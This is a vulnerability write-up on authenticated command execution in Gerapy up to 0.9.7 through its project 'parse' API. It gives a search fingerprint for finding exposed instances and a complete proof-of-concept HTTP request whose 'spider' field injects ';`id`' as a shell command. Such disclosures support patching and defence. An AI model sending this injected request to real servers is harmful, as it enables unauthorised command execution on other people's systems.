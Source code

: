 # Gerapy parse background remote command execution vulnerability

## Vulnerability Description

The method in Gerapy gerapy/server/core/views.py has arbitrary command execution. The attacker can use the vulnerability after logging in to the background.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Gerapy <= 0.9.7</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="Gerapy"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1638069254477-82075ea9-6191-4ebd-8e92-bed0104a0942-20220313132256739.png)

The file with the vulnerability is `gerapy/server/core/views.py`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1638185162093-04fc1593-86b0-4c91-b8d3-32ae22fc224d.png)

Construct request package test command execution

```python
POST /api/project/1/parse HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Accept: application/json, text/plain, */*
Authorization: Token 0fb31a60728efd8e6398349bea36fa7629bd8df0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 18

{"spider":";`id`"}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1638185190368-660687ff-2bb8-4251-8b66-811fca41ca9b.png)